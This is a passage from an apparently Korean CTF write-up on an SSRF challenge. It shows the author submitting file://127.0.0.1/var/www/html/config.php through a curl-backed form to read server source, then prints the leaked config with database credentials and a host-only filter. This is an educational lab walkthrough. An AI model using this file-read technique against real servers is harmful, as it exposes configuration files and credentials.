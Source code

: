 `localhost`만 된다고 한다.  

그런데 분명히 `Only access to localhost`라는 문자열은 아까 확인 한 `index.php`에는 없었던 문자열이다.  

그래서 다시 소스코드를 살펴보니 `include_once "config.php";`라는 부분이 있다.  

그럼 `config.php`라는 파일이 있다는 소리니, 이 파일을 살펴봐야 할 것 같다.  

이 때 `file` 프로토콜을 사용하면 된다.  

`index.php`에서는 딱히 프로토콜에 대한 제한은 없었으니, `file://127.0.0.1/var/www/html/config.php`를 하면 아마도 `config.php`의 내용을 볼 수 있을 것이다.  

```php
<!DOCTYPE html>
<html lang="en-US">
<head><title>REQUESTS PAGE</title>
</head>

<body>

curl 'file://127.0.0.1/var/www/html/config.php'
<form action="index.php" method="POST">
<input name="url" type="text">
<input type="submit" value="CURL">
</form>


<?php


$hosts = "localhost";
$dbusername = "ssrf_user";
$dbpasswd = "";
$dbname = "ssrf";
$dbport = 3306;

$conn = mysqli_connect($hosts,$dbusername,$dbpasswd,$dbname,$dbport);

function initdb($conn)
{
	$dbinit = "create table if not exists flag(secret varchar(100));";
	if(mysqli_query($conn,$dbinit)) return 1;
	else return 0;
}

function safe($url)
{
	$tmpurl = parse_url($url, PHP_URL_HOST);
	if($tmpurl != "localhost" and $tmpurl != "127.0.0.1")
	{
		var_dump($tmpurl);
		die("<h1>Only access to localhost</h1>");
	}
	return $url;
}

function getUrlContent($url){
	$url = safe($url);
	$url = escapeshellarg($url);
	$pl = "curl ".$url;
	echo $pl;
	$content = shell_exec($pl);
	return $content;
}
initdb($conn);
```
